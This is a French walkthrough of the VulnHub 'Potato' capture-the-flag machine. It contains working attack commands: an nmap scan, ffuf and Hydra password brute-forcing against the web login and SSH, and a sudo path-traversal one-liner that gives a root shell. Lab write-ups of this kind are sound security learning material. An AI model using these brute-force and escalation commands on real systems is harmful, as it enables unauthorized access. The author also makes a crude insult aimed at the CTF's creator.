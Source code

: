 # Solution du CTF Potato de VulnHub

[Potato](https://vulnhub.com/entry/potato-1,529/) est un CTF proposé sur VulnHub. Il est nul. Fuyez pauvres fous !

```shellsession
$ sudo nmap -p- -T5 -sCV 192.168.56.63
[sudo] Mot de passe de root : 
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.63
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

Je m'empresse de télécharger de fichier `bak` que Nmap a détecté :

```php
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

Le fichier à la racine du site ne semble pas correspondre mais une petite énumération met en lumière la présence du dossier `/admin` dont l'index correspond au script.

Il y a aussi un dossier `/potato` mais ce dernier est vide.

Je suis tenté de prendre le backup au pied de la lettre mais les identifiants sur le formulaire de login sont rejetés.

Définir le cookie comme indiqué dans le code ne fonctionne pas non plus :

```shellsession
$ curl -D- -H "Cookie: pass=potato;" http://192.168.56.63/admin/dashboard.php -e "http://192.168.56.63/admin/index.php?login=1"
HTTP/1.1 302 Found
Date: Fri, 18 Nov 2022 16:03:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: index.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

On est redirigé vers la page d'accueil :(

Une énumération web avec les wordlists *raft* de *fuzzdb* ne retournent rien mis à part le dossier /admin/logs.

Ce dernier contient trois fichiers texte avec les contenus suivant :

```
Operation: password change
Date: January 03, 2020 / 11:25 a.m.
User: admin
Status: OK


Operation: reboot the server
Date: January 09, 2020 / 9:55 a.m.
User: admin
Status: OK 


Operation: password change
Date: August 2, 2020 / 9:25 p.m.
User: admin
Status: OK
```

Le dernier fichier est plus gros car il contient pas mal de writespaces inutiles en fin de lignes.

Comme le script PHP indique de changer le mot de passe régulièrement je tente de me mettre dans la tête d'un utilisateur lambda et teste des mots de passe tel que `potato1`, `summer2020`, etc, sans succès.

J'ai procédé à une attaque brute force à l'aide de ffuf :

```shellsession
$ ffuf -u "http://192.168.56.63/admin/index.php?login=1" -w wordlists/rockyou.txt -X POST -d "username=admin&password=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -fs 109
```

J'ai laissé tomber après une bonne demi heure de scan.

On est dans un cas typique où l'auteur du CTF a mis en place une solution qui lui semblait clair pour lui... mais pour lui seul.

Du coup après recherche sur le web il s'avère que non seulement le mot de passe attendu ne concerne pas le script web mais plutôt SSH, l'utilisateur n'est pas `admin` et le mot de passe n'est pas une variante de `potato` !

Du coup il fallait faire cela :

```shellsession
$ ./hydra -l webadmin -P rockyou.txt ssh://192.168.56.63
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.63:22/
[22][ssh] host: 192.168.56.63   login: webadmin   password: dragon
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Wow ! Les parents de l'auteur de ce CTF auraient du le noyer à sa naissance !

Une fois qu'on a obtenu notre shell on peut aller voir ce fameux script `dashboard.php` et il contient des vulnérabilités qu'il aurait pu être intéressant d'exploiter mais tout est bloqué par ces premières lignes :

```php
<?php

if($_COOKIE['pass']!=="serdesfsefhijosefjtfgyuhjiosefdfthgyjh"){
  header('Location: index.php');
  exit();
}
?>
```

Je pouvais faire tourner rockyou longtemps dessus ! A croire que l'auteur a volontairement saboté son travail.

La suite du CTF a sans doute plus de logique mais n'a absolutment rien d'intéressant :

```shellsession
webadmin@serv:/var/www/html/admin$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
webadmin@serv:/notes$ sudo /bin/nice /notes/../bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA==
# echo bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA== | base64 -d
licorne unijambiste qui fuit au bout d’un double arc-en-ciel.
```

Heureusement pour tous les fans de CTF l'auteur ne semble pas avoir réitéré depuis :D

*Publié le 18 novembre 2022*
